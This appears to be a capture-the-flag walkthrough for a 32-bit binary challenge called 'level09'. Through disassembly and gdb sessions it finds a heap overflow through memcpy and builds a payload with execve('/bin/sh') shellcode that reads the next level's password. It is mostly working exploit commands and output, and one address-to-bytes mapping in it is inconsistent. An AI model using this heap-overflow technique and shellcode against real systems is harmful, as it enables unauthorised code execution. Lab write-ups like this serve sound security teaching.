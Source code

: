 # level09

## disassemble

```shell
objdump -dC -M intel level9 > source.txt
# objdump --disassemble --demangle --disassembler-options intel level9 > source.txt
```

## find_a_vulnerability

### get_first_address_of_the_heap

```shell
gdb level9

# 8048617:	e8 14 ff ff ff       	call   8048530 <operator new(unsigned int)@plt>
# 804861c:	89 c3                	mov    ebx,eax
(gdb) break *0x804861c
(gdb) run BBBB
(gdb) info registers
eax            0x804a008	134520840
```

The fisrst address : `0x804a008`

### memcpy_to_edx

#### call_edx

```
080485f4 <main>:
 [...]
 8048693:       ff d2                   call   edx
 [...]
```

#### memcpy's_vulnerability

* write on heap

```shell
gdb level9
# 8048733:	e8 d8 fd ff ff       	call   8048510 <memcpy@plt>
# 8048738:	c9                   	leave
(gdb) break *0x8048738
(gdb) run BBBB
(gdb) x/42x 0x804a008
0x804a008:	0x08048848	0x42424242	0x00000000	0x00000000
0x804a018:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a028:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a038:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a048:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a058:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a068:	0x00000000	0x00000000	0x00000005	0x00000071
0x804a078:	0x08048848	0x00000000	0x00000000	0x00000000
0x804a088:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a098:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0a8:	0x00000000	0x00000000
```

* segmentation fault

```bash
python2.7 -c 'print("BBBB" * 27)' > /tmp/exploit.txt
gdb level9
(gdb) run $(cat /tmp/exploit.txt)
Starting program: /home/user/level9/level9 $(cat /tmp/exploit.txt)
[Inferior 1 (process 6537) exited with code 0110]
```

```bash
python2.7 -c 'print("BBBB" * 28)' > /tmp/exploit.txt
gdb level9
(gdb) run $(cat /tmp/exploit.txt)
Starting program: /home/user/level9/level9 $(cat /tmp/exploit.txt)

Program received signal SIGSEGV, Segmentation fault.
0x08048682 in main ()
(gdb) x/42x 0x804a008
0x804a008:	0x08048848	0x42424242	0x42424242	0x42424242
0x804a018:	0x42424242	0x42424242	0x42424242	0x42424242
0x804a028:	0x42424242	0x42424242	0x42424242	0x42424242
0x804a038:	0x42424242	0x42424242	0x42424242	0x42424242
0x804a048:	0x42424242	0x42424242	0x42424242	0x42424242
0x804a058:	0x42424242	0x42424242	0x42424242	0x42424242
0x804a068:	0x42424242	0x42424242	0x42424242	0x42424242
0x804a078:	0x42424242	0x00000000	0x00000000	0x00000000
0x804a088:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a098:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0a8:	0x00000000	0x00000000
```

First address       : `0x804a008 + 4` --> `0x804a00c` --> "\x0c\xa0\x04\x08"
Second address      : `0x804a008 + 8` --> `0x804a010` --> "\x50\x88\x04\x08"
Segfault's address	: `0x804a078`


### exploit

* shellcode : `\x31\xc0\x99\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80`

```shell
python2.7 -c 'print( "" \
        + "\x10\xa0\x04\x08" \
        "\x31\xc0\x99\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"  \
        + ("...." * 20) \
        + "\x0c\xa0\x04\x08" \
        )'\
        > /tmp/exploit.txt
./level9 $(cat /tmp/exploit.txt)
cat /home/user/bonus0/.pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```
